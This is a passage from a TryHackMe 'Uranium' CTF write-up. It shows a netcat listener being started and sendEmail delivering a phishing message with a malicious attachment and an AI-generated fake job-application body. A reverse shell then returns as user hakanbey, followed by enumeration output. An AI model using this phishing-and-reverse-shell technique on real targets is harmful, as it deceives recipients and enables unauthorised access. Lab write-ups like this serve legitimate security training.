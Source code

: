 **Next, setup a `nc` listener:**
```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/Uranium-CTF)-[2023.02.10|16:22:00(HKT)]
└> sudo nc -lnvp 443
listening on [any] 443 ...
```

**Then, send the mail:**
```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/Uranium-CTF)-[2023.02.10|16:30:44(HKT)]
└> sendEmail -t hakanbey@uranium.thm -f siunam@gmail.com -s uranium.thm -u "Application Request" -a application -o tls=no
Reading message body from STDIN because the '-m' option was not used.
If you are manually typing in a message:
  - First line must be received within 60 seconds.
  - End manual input with a CTRL-D on its own line.

Dear Uranium Coin,

I am writing to apply for the job at your cryptocurrency company. I am confident that my skills and experience make me an ideal candidate for this position. Please find my attached CV, which outlines my qualifications and accomplishments.

I am excited about the opportunity to work at your company and would welcome the chance to discuss more about how I can help bring success.

Thank you for your time and consideration.

Sincerely,
siunam
Feb 10 16:31:32 earth sendEmail[61642]: Message input complete.
Feb 10 16:31:34 earth sendEmail[61642]: Email was sent successfully!
```

> Fun fact: The body message is generated via AI:
> 
> ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Uranium-CTF/images/Pasted%20image%2020230210163406.png)

**After that, wait for a while and you should get a reverse shell:**
```
┌[siunam♥earth]-(~/ctf/thm/ctf/Uranium-CTF)-[2023.02.10|16:22:00(HKT)]
└> sudo nc -lnvp 443
listening on [any] 443 ...
connect to [10.8.70.81] from (UNKNOWN) [10.10.180.31] 39422
bash: cannot set terminal process group (1707): Inappropriate ioctl for device
bash: no job control in this shell
hakanbey@uranium:~$ whoami;hostname;id;ip a
whoami;hostname;id;ip a
hakanbey
uranium
uid=1000(hakanbey) gid=1000(hakanbey) groups=1000(hakanbey)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:be:8f:48:ed:61 brd ff:ff:ff:ff:ff:ff
    inet 10.10.180.31/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2189sec preferred_lft 2189sec
    inet6 fe80::be:8fff:fe48:ed61/64 scope link 
       valid_lft forever preferred_lft forever
```
